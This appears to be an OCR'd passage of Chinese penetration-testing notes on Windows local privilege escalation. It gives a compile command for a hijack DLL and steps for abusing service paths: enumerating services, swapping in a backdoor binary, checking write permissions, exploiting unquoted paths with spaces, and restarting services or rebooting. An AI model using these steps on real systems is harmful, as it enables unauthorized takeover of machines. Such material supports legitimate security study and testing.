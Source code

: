 编译：

```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

路径，以下目录皆可：

```
$env:path
```



## 服务路径提权

```
查找，首先找到非常规目录的服务：
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
或者：
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """


如果显示程序占用可以使用move:

move bd.exe original.exe

然后确认是否具备重启服务，或者服务自动启动+重启机器的权限
Restart-Service GammaService
net stop mysql

重启机器，如果没有权限修改服务的情况下：
必须拥有SeShutDownPrivilege权限：
shutdown /r /t 0

随后确认路径是否具备写入权限：
icacls "C:\Program Files"

随后写入，然后重新启动

Restart-Service GammaService

值得注意的是，软件名字为带空格的目录的第一个单词，
举例：
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe


小技巧：
可以使用正则表达式：
.*\bsvchost\b.*
.*".*


```
